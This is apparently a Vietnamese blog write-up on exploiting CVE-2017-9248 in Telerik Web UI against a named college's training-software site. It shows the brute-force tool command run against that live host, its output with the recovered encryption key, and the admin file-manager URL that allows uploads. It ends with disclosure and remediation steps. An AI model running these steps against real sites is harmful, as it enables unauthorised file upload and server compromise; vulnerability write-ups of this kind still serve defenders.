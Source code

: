 ```yaml
---
title: Tiền thưởng (CVE-2017-9248)
date: 26/12/2022
layout: single
header:
  teaser: https://captmeelo.com/static/img/2018-08-03-pwning-with-telerik/05.png
--- 
```


## Khai thác lỗ hổng ứng dụng Web qua Telerik Web Ui trên Framework Asp.Net

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


# Giới Thiệu
Khai Thác Lỗ Hổng phần mềm đào tạo của Trường Cao Đẳng 

# Mô Tả 
Chào mọi người, mình xin chia sẻ bài viết phân tích về lỗ hổng trên Telerik Web UI 
Đây là lỗ hổng bảo mật cực kỳ nghiêm trọng, tồn tại do mã hóa yếu trong tệp tin Telerik.Web.UI.dll (Telerik UI for ASP.NET AJAX components). Khai thác lỗ hổng này hacker có thể giải mã ra key (Telerik.Web.UI.DialogParametersEncryptionKey and/or the MachineKey), từ đó có được đường link quản trị nội dung tệp tin và có thể tải tệp tin lên máy chủ nếu cấu hình cho phép (mặc định là cho phép). Lỗ hổng này tồn tại ở các phiên bản từ 2012.3.1308 đến 2017.1.118 (.NET 35, 40, 45).



## Bắt đầu exploit
Để brute telerik bạn có thể sử dụng mã nguồn mở này [công cụ](https://github.com/bao7uo/dp_crypto) này
## Chạy công cụ 
```powershell
python 4.py k -u http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx


CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {6} found with 49 requests, total so far: 49
Key position 02: {8} found with 31 requests, total so far: 80
Key position 03: {3} found with 23 requests, total so far: 103
Key position 04: {F} found with 57 requests, total so far: 1608
Key position 41: {7} found with 50 requests, total so far: 1458
Key position 42: {1} found with 10 requests, total so far: 1468
Key position 43: {6} found with 49 requests, total so far: 1517
Key position 44: {6} found with 45 requests, total so far: 1562
Key position 45: {9} found with 31 requests, total so far: 1593
Key position 46: {F} found with 61 requests, total so far: 1654
Key position 47: {4} found with 36 requests, total so far: 1690
Key position 48: {8} found with 31 requests, total so far: 1721
Found 48 of 48 key characters: (ASCII hex) 363833463739343946363532363045443631323746324335313531324346343743443535383231323731363639463438
Total web requests: 1721
http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=ZG8GLm5UTFUXbnsHVF0LElV2SkEfZRJGY1h3QSB0YUQOPU1gW1xnXngBZFpbAWIIbG5K29afAQcAxV8Z1hdWxF0TEYWPn9idmRrenhpfFdvPGUNYm5hDFJ/RE0UW019U10hcGJcQmAnZC9gZVhFfRISBA4MdHNGWnUIAWNpYEVdAVhPVH9lEm1uTFUfBWdCVAJxN2RcdEQlABZGfExJdRoRTE0ZFQgI
```

![](https://www10.0zz0.com/2022/06/10/14/557837570.png)
## Và chúng ta có thể up tất cả mọi thứ lên trên này :D

## Cái Kết 
Tôi đã báo cáo lỗi này đến công ty phát triển phần mềm của trường :))

![](https://www13.0zz0.com/2022/06/10/14/164886149.png)

Sau hơn 1 năm báo cáo cuối cùng lỗi này đã được khắc phục :))

![](https://www13.0zz0.com/2022/06/10/15/894737972.png)

## Cách khắc phục
Cài đặt bản vá lỗ hổng bảo mật tại [đây](https://www.telerik.com/)
Tiến hành upgrade bản vá theo hướng 
Tạo các khóa duy nhất cho Telerick.Web.UI.DialogParameterEncodingKey và MachineKey trong web.config hoặc dùng trình tạo khóa của IIS machine Key
Thực hiện Redirect url trả lại trang thông báo lỗi khi hacker truy cập Telerik



## Nhớ đừng làm gì xấu với công cụ này nhé :D

